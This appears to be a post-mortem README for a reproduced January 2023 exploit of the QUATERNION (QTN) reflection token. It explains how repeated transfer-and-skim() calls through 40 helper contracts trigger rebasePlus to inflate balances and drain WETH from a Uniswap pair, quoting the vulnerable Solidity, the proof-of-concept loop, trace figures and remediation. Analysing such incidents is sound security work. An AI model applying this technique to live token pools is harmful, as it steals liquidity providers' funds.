



# QTN (QUATERNION) Exploit — Reflection-Supply Rebase Inflation via `skim()` Loop

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.). The fork is served fully offline from a local
> `anvil_state.json` snapshot of Ethereum mainnet at block 16,430,212 (the test's
> `createSelectFork` points at `http://127.0.0.1:8545`). Full verbose trace:
> [output.txt](output.txt). Verified vulnerable source:
> [QUATERNION.sol](sources/QUATERNION_C9fa8F/QUATERNION.sol).

---

## Key info

| | |
|---|---|
| **Loss** | WETH drained from the QTN/WETH Uniswap-V2 pair across two txs — [`0x37cb8626…`](https://etherscan.io/tx/0x37cb8626e45f0749296ef080acb218e5ccc7efb2ae4d39c952566dc378ca1c4c) and [`0xfde10ad9…`](https://etherscan.io/tx/0xfde10ad92566f369b23ed5135289630b7a6453887c77088794552c2a3d1ce8b7) |
| **Vulnerable contract** | `QUATERNION` (QTN token) — [`0xC9fa8F4CFd11559b50c5C7F6672B9eEa2757e1bd`](https://etherscan.io/address/0xC9fa8F4CFd11559b50c5C7F6672B9eEa2757e1bd#code) |
| **Victim pool** | QTN/WETH Uni-V2 pair — [`0xA8208dA95869060cfD40a23eb11F2158639c829B`](https://etherscan.io/address/0xA8208dA95869060cfD40a23eb11F2158639c829B) |
| **Attacker EOA / contract** | PoC attack contract `ContractTest` — `0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496` (deploys 40 throwaway `QTNContract` helpers) |
| **Attack tx** | [`0x37cb8626…`](https://etherscan.io/tx/0x37cb8626e45f0749296ef080acb218e5ccc7efb2ae4d39c952566dc378ca1c4c) (and a second leg `0xfde10ad9…`) |
| **Chain / block / date** | Ethereum mainnet / 16,430,212 / Jan 17, 2023 |
| **Compiler** | Solidity **v0.6.12** (`+commit.27d51765`), optimizer **disabled** (0), runs 200 |
| **Bug class** | Reflection/rebase token — `_gonsPerFragment`-denominated balances are inflated by repeatedly triggering the buy-path `rebasePlus()` through the pair's permissionless `skim()`, then re-aggregating the inflated balances back to the attacker |

---

## TL;DR

`QUATERNION` (QTN) is a reflection-style ERC20 that keeps balances internally as
"gons" (`_gonBalances[addr]`) and converts to user-facing QTN via
`_gonsPerFragment = TOTAL_GONS / _totalSupply`. Whenever a transfer has
`from == uniswapV2Pair` (i.e. *looks like a buy*), `_transfer` calls
`rebasePlus(amount)`, which **mints `amount/5` into `_totalSupply`** and **recomputes
`_gonsPerFragment = TOTAL_GONS / _totalSupply`** — a smaller number
([QUATERNION.sol:268-271](sources/QUATERNION_C9fa8F/QUATERNION.sol#L268-L271),
[QUATERNION.sol:301-306](sources/QUATERNION_C9fa8F/QUATERNION.sol#L301-L306)).

Because every existing gon balance is divided by that *smaller* `_gonsPerFragment`,
each "buy" **inflates the QTN-equivalent value of every holder's gon balance** —
including the attacker's helpers' balances. The pair's own balance, however, is
tracked by a separate `uniswapV2PairAmount` accumulator that is *not* revalued, so the
pair does not get the same uplift.

1. The attacker swaps **2 WETH → 10,192 QTN** out of the pair
   ([output.txt:63](output.txt)) and splits it into 40 equal chunks of ~254.81 QTN.
2. For each chunk it (a) transfers the QTN **directly to the pair**, then (b) calls
   `pair.skim(helper)`. `skim()` sees `QTN.balanceOf(pair) > reserve1` and ships the
   excess to the helper via `QTN.transfer(pair → helper)` — a transfer whose `from` is
   the pair, so it is classified as a **buy** and fires `rebasePlus()` 40 times.
3. After 40 rebase steps `_gonsPerFragment` is markedly smaller, so each helper's
   gon balance now reads as **more QTN than was deposited** (~285 → 255 QTN each,
   monotonically decreasing as the rebase dilutes later reads).
4. The attacker calls `transferBack()` on all 40 helpers. They aggregate to
   **11,423 QTN** ([output.txt:1684](output.txt)) — versus the **10,192 QTN** originally
   bought — a ~12% supply-inflation gift created out of thin air.
5. It dumps that inflated 11,423 QTN back through the router, pulling
   **2.131 WETH** out ([output.txt:1726](output.txt)) — recovering the 2 WETH seed
   **plus ~0.131 WETH of honest LP liquidity**.

The PoC seeds only 2 WETH (it `deal`s itself ETH and wraps it), so its absolute profit
is small; the on-chain attack used a much larger WETH seed and ran the loop over many
helpers across two transactions to drain a meaningful amount of WETH from the pool.

---

## Background — what QUATERNION does

`QUATERNION` ([source](sources/QUATERNION_C9fa8F/QUATERNION.sol)) is a fixed-gon
reflection token (an informal "elliptic / RFI-style" design) deployed behind a Uniswap-V2
pair. Its accounting is unusual:

- **Gons, not tokens.** Balances are stored as `_gonBalances[addr]` over a constant
  `TOTAL_GONS = ~2^256 - (2^256 % 1e7e18)` ([QUATERNION.sol:184-186](sources/QUATERNION_C9fa8F/QUATERNION.sol#L184-L186)).
  `balanceOf(addr) = _gonBalances[addr] / _gonsPerFragment` for everyone **except** the
  pair, whose balance is a separate `uniswapV2PairAmount` accumulator
  ([QUATERNION.sol:235-239](sources/QUATERNION_C9fa8F/QUATERNION.sol#L235-L239)).
- **Rebase-on-buy.** Any transfer with `from == uniswapV2Pair` is treated as a buy and
  triggers `rebasePlus(amount)`, which mints `amount/5` to `_totalSupply` and shrinks
  `_gonsPerFragment` ([QUATERNION.sol:301-306](sources/QUATERNION_C9fa8F/QUATERNION.sol#L301-L306)).
- **Anti-bot frictions.** `_transfer` enforces a per-tx limit (`_percentForTxLimit = 2%`),
  a 5-minute `_timeLimitFromLastBuy` cooldown on seller-side reuse of an address, and a
  blacklist that auto-flags anyone buying while `!_live`
  ([QUATERNION.sol:278-307](sources/QUATERNION_C9fa8F/QUATERNION.sol#L278-L307)). These
  are bypassed by the attacker warping time (`vm.warp(+500)`) and using fresh helper
  contracts.

On-chain parameters at the fork block (read from the trace):

| Parameter | Value |
|---|---|
| `_totalSupply` (initial) | 10,000,000 QTN (`INITIAL_FRAGMENTS_SUPPLY = 1e7 * 1e18`) |
| `_percentForTxLimit` | 2% of `_totalSupply` (per-tx cap) |
| `_percentForRebase` | 5% of `_totalSupply` (rebase gate threshold) |
| `_timeLimitFromLastBuy` | 5 minutes (per-address sell cooldown) |
| Pair WETH reserve (r0) | `3,027,310,689,825,641,549` (~3.027 WETH) — [output.txt:46](output.txt) |
| Pair QTN reserve (r1) | `25,666,645,898,426,115,635,900,466` (~25,666.6 QTN) — [output.txt:46](output.txt) |
| Router | `0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D` (Uni-V2 router) |
| WETH | `0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2` |

---

## The vulnerable code

### 1. Balances are gon-denominated; the pair is tracked separately

```solidity
function balanceOf(address account) public view override returns (uint256) {
    if(account == uniswapV2Pair)
        return uniswapV2PairAmount;
    return _gonBalances[account].div(_gonsPerFragment);
}
```
([QUATERNION.sol:235-239](sources/QUATERNION_C9fa8F/QUATERNION.sol#L235-L239))

Every ordinary holder's displayed balance scales with `1 / _gonsPerFragment`; the pair's
displayed balance does **not** — it is a raw accumulator updated only inside
`_tokenTransfer` ([QUATERNION.sol:313-332](sources/QUATERNION_C9fa8F/QUATERNION.sol#L313-L332)).

### 2. A buy mints supply and shrinks `_gonsPerFragment`

```solidity
function rebasePlus(uint256 _amount) private {
     _totalSupply = _totalSupply.add(_amount.div(5));
    _gonsPerFragment = TOTAL_GONS.div(_totalSupply);
}
```
([QUATERNION.sol:268-271](sources/QUATERNION_C9fa8F/QUATERNION.sol#L268-L271))

`rebasePlus` is reachable only from the `from == uniswapV2Pair` branch of `_transfer`,
i.e. a transfer whose sender is the pair. Because `_gonsPerFragment` decreases, the
*same* gon balance converts to a **larger** amount of QTN afterwards — a silent
revaluation of every holder's balance.

```solidity
else {  // from == uniswapV2Pair  (a "buy")
    if(!_live)
        blacklist[to] = true;
    require(balanceOf(to) <= txLimitAmount, 'ERC20: current balance exceeds the max limit.');
    _buyInfo[to] = now;
    _tokenTransfer(from, to, amount, 0);

    uint256 rebaseLimitAmount = _totalSupply.mul(_percentForRebase).div(100);
    uint256 currentBalance = balanceOf(to);
    uint256 newBalance = currentBalance.add(amount);
    if(currentBalance < rebaseLimitAmount && newBalance < rebaseLimitAmount) {
        rebasePlus(amount);
    }
}
```
([QUATERNION.sol:292-307](sources/QUATERNION_C9fa8F/QUATERNION.sol#L292-L307))

### 3. `_tokenTransfer` debits gons but the pair's reserve is re-synced by `skim`

```solidity
function _tokenTransfer(address from, address to, uint256 amount, uint256 taxFee) internal {
    if(to == uniswapV2Pair)
        uniswapV2PairAmount = uniswapV2PairAmount.add(amount);
    else if(from == uniswapV2Pair)
        uniswapV2PairAmount = uniswapV2PairAmount.sub(amount);

    uint256 burnAmount = amount.mul(taxFee).div(100);
    uint256 transferAmount = amount.sub(burnAmount);

    uint256 gonTotalValue = amount.mul(_gonsPerFragment);
    uint256 gonValue = transferAmount.mul(_gonsPerFragment);

    _gonBalances[from] = _gonBalances[from].sub(gonTotalValue);
    _gonBalances[to]   = _gonBalances[to].add(gonValue);
    ...
}
```
([QUATERNION.sol:313-332](sources/QUATERNION_C9fa8F/QUATERNION.sol#L313-L332))

The pair's gon ledger is **never** kept consistent with `uniswapV2PairAmount`, so the
pair's *real* QTN balanceOf diverges from `reserve1` whenever tokens are pushed to it
outside the AMM's `swap`/`mint`. Uniswap-V2's `skim()` then merrily ships that divergence
to an attacker-controlled address, and — because that skimmed transfer's `from` is the
pair — it counts as a "buy" and fires `rebasePlus`.

### 4. The PoC helper + skim loop

```solidity
contract QTNContract {
    IERC20 QTN = IERC20(0xC9fa8F4CFd11559b50c5C7F6672B9eEa2757e1bd);
    function transferBack() external {
        QTN.transfer(msg.sender, QTN.balanceOf(address(this)));
    }
}

function QTNContractFactory() internal {
    uint256 transferAmount = QTN.balanceOf(address(this)) / 40;
    for (uint256 i; i < 40; ++i) {
        QTNContract QTNcontract = new QTNContract();
        contractList.push(address(QTNcontract));
        QTN.transfer(address(Pair), transferAmount);   // push QTN directly into the pair
        Pair.skim(address(QTNcontract));               // pair ships excess → helper (a "buy" ⇒ rebase)
    }
}
```
([QTN_exp.sol:13-19](test/QTN_exp.sol#L13-L19), [QTN_exp.sol:52-60](test/QTN_exp.sol#L52-L60))

---

## Root cause — why it was possible

The reflection/rebase design has two compounding flaws:

1. **`rebasePlus` is value-redistributing, not value-neutral.** Minting `amount/5` into
   `_totalSupply` while *not* minting any gons shrinks `_gonsPerFragment`, which
   re-prices every existing gon balance upward in QTN terms. The author appears to have
   intended this as a holder reward, but it is triggered by *any* `from == pair`
   transfer — including transfers the attacker manufactures for free with `skim()`.

2. **The pair's `balanceOf` is decoupled from its gon ledger, so it is trivially
   desynchronised.** Pushing QTN directly to the pair (`QTN.transfer(pair, …)`) bumps
   `uniswapV2PairAmount`, so the pair's `balanceOf` rises above `reserve1`. The
   permissionless `pair.skim(to)` then sends that excess to `to` through a
   `from == pair` transfer — exactly the path that triggers `rebasePlus`.

   The combination means an attacker can **mint supply inflation at will, for the cost
   of gas**, by looping `transfer → skim` through disposable helper contracts, then
   re-aggregating the inflated balances. The inflated QTN is dumped back into the same
   pair to extract WETH.

The per-tx limit, blacklist, and `_timeLimitFromLastBuy` cooldown are all bypassed: each
chunk is below the 2% cap, fresh helpers have no cooldown, and `vm.warp` clears the
5-minute gate between phases.

---

## Preconditions

- A Uniswap-V2 (or fork) pair whose `skim()` is callable by anyone (always true for
  standard pairs) and whose `balanceOf` reads the reflection token's `uniswapV2PairAmount`
  accumulator rather than a reserve-locked value.
- `_percentForTxLimit` (2%) large enough that a per-helper chunk fits under the per-tx
  cap (10,192 / 40 ≈ 254.81 QTN per helper, well under the ~200,000 QTN cap).
- Working capital in WETH to seed the initial buy (2 WETH in the PoC; the live attack
  used a larger seed). The seed is recovered, so the attack is effectively
  self-funding.
- The 5-minute `_timeLimitFromLastBuy` cooldown is cleared by warping time forward
  between phases (`vm.warp(block.timestamp + 500)` in the PoC).

---

## Attack walkthrough (with on-chain numbers from the trace)

The pair's `token0 = WETH`, `token1 = QTN`, so `reserve0 = WETH`, `reserve1 = QTN`. All
figures are taken directly from the `Sync` / `Swap` / `getReserves` / `balanceOf` lines
in [output.txt](output.txt). Raw wei first, human approximation in parentheses.

| # | Step | WETH reserve (r0) | QTN reserve (r1) | Attacker QTN | Notes |
|---|------|------------------:|------------------:|-------------:|--------|
| 0 | **Initial** `getReserves` ([output.txt:46](output.txt)) | `3,027,310,689,825,641,549` (~3.027) | `25,666,645,898,426,115,635,900,466` (~25,666.6) | 0 | Honest pool. Attacker wraps 2 ETH → 2 WETH ([output.txt:24-27](output.txt)). |
| 1 | **Seed buy** 2 WETH → 10,192.4 QTN via router; `Swap` ([output.txt:63](output.txt)) | `5,027,310,689,825,641,549` (~5.027) | `15,474,229,001,148,084,708,054,981` (~15,474.2) ([output.txt:62](output.txt)) | `10,192,416,897,278,030,927,845,485` (~10,192.4) ([output.txt:70](output.txt)) | Pair loaded with 2 WETH; attacker holds the bought QTN. |
| 2 | **Split + skim loop (×40)** — push `254,810,422,431,950,773,196,137` (~254.81) QTN to the pair then `skim(helper)`; each skim fires a `from==pair` transfer → `rebasePlus` ([output.txt:80-1275](output.txt)). WETH reserve untouched; QTN reserve re-syncs via `Sync` to `~15,474,641` after each round. | unchanged (~5.027) | `~15,474,229,001,148,…` (rebases grow `_totalSupply`, shrinking `_gonsPerFragment`) | helpers' balances inflate | The pair sends 0 WETH on each skim; only QTN moves. |
| 3 | **`transferBack()` ×40** — each helper sends its inflated balanceOf back to the attacker ([output.txt:1278-1677](output.txt)). First helper returns `285,578,431,822,724,309,092,875` (~285.6 QTN) vs the ~254.81 it received; later helpers return slightly less (~255.5 QTN) as the rebase dilutes each successive read. | unchanged (~5.027) | unchanged | aggregated **`11,423,137,272,908,972,363,715,007`** (~11,423.1) ([output.txt:1684](output.txt)) | ~12% more QTN than the 10,192.4 bought — minted by the 40 rebases. |
| 4 | **Dump** 11,423 QTN → WETH via router; `getReserves` reads stale r0 `5,027,310,689,825,641,549` ([output.txt:1698](output.txt)) but `QTN.balanceOf(pair)` is `26,897,366,274,057,057,071,769,988` (~26,897.4) ([output.txt:1700](output.txt)). `Swap` pays out **`2,131,376,640,477,927,235` (~2.131 WETH)** ([output.txt:1713](output.txt)); final `Sync` r0 `2,895,934,049,347,714,314` (~2.896) ([output.txt:1712](output.txt)). | `2,895,934,049,347,714,314` (~2.896) | `26,897,366,274,057,057,071,769,988` (~26,897.4) | 0 | Attacker ends with 2.131 WETH. |

### Profit / loss accounting (WETH, raw wei)

| Item | Amount (wei) | ~Human |
|---|---:|---:|
| WETH seeded by attacker | `2,000,000,000,000,000,000` | 2.0 |
| WETH received from final dump | `2,131,376,640,477,927,235` ([output.txt:1713](output.txt)) | 2.131 |
| **Net profit (WETH)** | **`+131,376,640,477,927,235`** | **~0.131** |
| Pair WETH before attack | `3,027,310,689,825,641,549` ([output.txt:46](output.txt)) | ~3.027 |
| Pair WETH after attack | `2,895,934,049,347,714,314` ([output.txt:1712](output.txt)) | ~2.896 |
| **Pair WETH drained** | **`131,376,640,477,927,235`** | **~0.131** |

The drained pool WETH equals the attacker's net profit to the wei — the attacker simply
extracted the inflation-gifted QTN's worth of WETH out of the pool. The PoC's final log
confirms `Attacker WETH balance after exploit: 2.131376640477927235`
([output.txt:7](output.txt), [output.txt:1726](output.txt)). The live two-tx attack used
a larger WETH seed and the same loop scaled up to drain a correspondingly larger amount.

---

## Diagrams

### Sequence of the attack

```mermaid
sequenceDiagram
    autonumber
    actor A as Attacker (ContractTest)
    participant R as Uni-V2 Router
    participant P as QTN/WETH Pair
    participant T as QTN (QUATERNION)
    participant H as 40× QTNContract helpers

    Note over P: reserves ~3.027 WETH / ~25,666.6 QTN
    A->>R: swap 2 WETH → 10,192.4 QTN (seed buy)
    R->>P: swap()
    P-->>A: 10,192.4 QTN
    Note over A: holds 10,192.4 QTN

    rect rgb(255,243,224)
    Note over A,H: Split + skim loop (×40) — manufacture 40 "buys"
    loop 40 helpers
        A->>T: transfer(pair, 254.81 QTN)   // uniswapV2PairAmount += chunk
        A->>P: skim(helper)
        P->>T: transfer(pair → helper, excess)   // from == pair ⇒ looks like a BUY
        T->>T: rebasePlus(chunk): _totalSupply += chunk/5; _gonsPerFragment ↓
        Note over H: helper's gon balance now reads as MORE QTN
    end
    end

    rect rgb(243,229,245)
    Note over A,H: Aggregate the inflated balances
    loop 40 helpers
        A->>H: transferBack()
        H->>T: transfer(helper → attacker, balanceOf(helper))
    end
    Note over A: aggregated 11,423 QTN  (>10,192.4 bought)
    end

    A->>R: swap 11,423 QTN → WETH (dump inflated QTN)
    R->>P: swap()
    P-->>A: 2.131 WETH
    Note over A: net +0.131 WETH (pool's honest liquidity)
```

### Pool / supply state evolution



### The flaw inside `_transfer` / `rebasePlus`



### Why `skim` manufactures free rebases



---

## Why each magic number

- **`2 ether` WETH seed** ([QTN_exp.sol:39](test/QTN_exp.sol#L39)): the working capital
  for the initial QTN buy. Sized only to be small in the PoC; recovered in full at the
  end. The live attack used a larger seed across two transactions.
- **`40` helper contracts** ([QTN_exp.sol:54](test/QTN_exp.sol#L54)): each iteration of
  the loop mints one rebase step (`amount/5` into `_totalSupply`). 40 steps compound
  enough `_gonsPerFragment` shrinkage to inflate the helpers' aggregate balance by ~12%
  (10,192 → 11,423 QTN). More helpers ⇒ more inflation; the count is a tunable gain knob.
- **`/ 40` split** ([QTN_exp.sol:53](test/QTN_exp.sol#L53)): each chunk must stay under
  the 2% per-tx limit and below the 5% `_percentForRebase` gate so `rebasePlus` actually
  fires. 10,192 / 40 ≈ 254.81 QTN per chunk, far under both thresholds.
- **`vm.warp(block.timestamp + 500)`** ([QTN_exp.sol:41](test/QTN_exp.sol#L41),
  [QTN_exp.sol:43](test/QTN_exp.sol#L43)): clears the 5-minute `_timeLimitFromLastBuy`
  cooldown between the seed buy, the skim loop, and the final dump.
- **`swapExactTokensForTokensSupportingFeeOnTransferTokens`** (both directions,
  [QTN_exp.sol:73-75](test/QTN_exp.sol#L73-L75), [QTN_exp.sol:83-85](test/QTN_exp.sol#L83-L85)):
  used instead of the exact-amount variant because QTN's transfer logic mutates
  `_gonsPerFragment` mid-path, which would break a strict `getAmountsOut` quote.

---

## Remediation

1. **Do not mint supply as a side effect of transfers.** `rebasePlus` is the root
   defect. A rebase/reward system should be driven by an explicit, time- or
   governance-triggered function, never by classifying `from == pair` as a buy. Remove
   the `rebasePlus(amount)` call from `_transfer`, or replace the whole reflection model
   with a canonical OpenZeppelin ERC20 (no bespoke gon accounting).
2. **If gons are kept, never let `_gonsPerFragment` change without revaluing every
   balance atomically.** Shrinking `_gonsPerFragment` re-prices existing gon balances
   upward without any corresponding debit — that *is* the mint. Either rebase all
   balances (including the pair's) together, or keep `_gonsPerFragment` constant.
3. **Make `balanceOf(pair)` consistent with the pair's real holdings.** Tracking the pair
   in a separate `uniswapV2PairAmount` accumulator that can diverge from the gon ledger
   is what lets `skim()` surface fake "buys." Either store the pair's balance in gons too,
   or block direct `transfer` into the pair (`require(msg.sender != pair…)` is insufficient;
   enforce that pair-bound transfers go through `swap`/`mint`).
4. **Add a swap-side `k` invariant check on the actual received amounts** (Uniswap-V2
   already does this, but the reflection token's `balanceOf` lies to it). The deeper fix
   is to make `balanceOf` honest, not to patch the AMM.
5. **Cap cumulative per-transaction rebase magnitude.** Even if some rebase is desired,
   no single transaction should be able to shrink `_gonsPerFragment` by more than a small
   fraction; a 40-step loop minting 12% in one tx is a red flag.

---

## How to reproduce

```bash
_shared/run_poc.sh 2023-01-QTN_exp --mt testExploit -vvvvv
```

- RPC: **none required** — the fork is served fully offline from `anvil_state.json`
  (Ethereum mainnet state at block 16,430,212). The test's `createSelectFork` points at
  `http://127.0.0.1:8545`, which the shared harness's anvil occupies from the local
  snapshot. Do **not** point this at a public RPC endpoint; the fork block is old and most
  public endpoints prune it.
- EVM: `evm_version = 'cancun'` in `foundry.toml` (no Cancun-specific opcodes are used;
  the test passes on the default).
- Result: `[PASS] testExploit()` with `Attacker WETH balance after exploit: 2.131376640477927235`.

Expected tail (from [output.txt:4-7](output.txt) and [output.txt:1771](output.txt)):

```
Ran 1 test for test/QTN_exp.sol:ContractTest
[PASS] testExploit() (gas: 12991706)
Logs:
  Attacker WETH balance after exploit: 2.131376640477927235

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 54.19s (53.50s CPU time)
```

---

*Reference: BlockSec alert — https://twitter.com/BlockSecTeam/status/1615625901739511809 (QTN / QUATERNION, Ethereum mainnet, Jan 2023).*
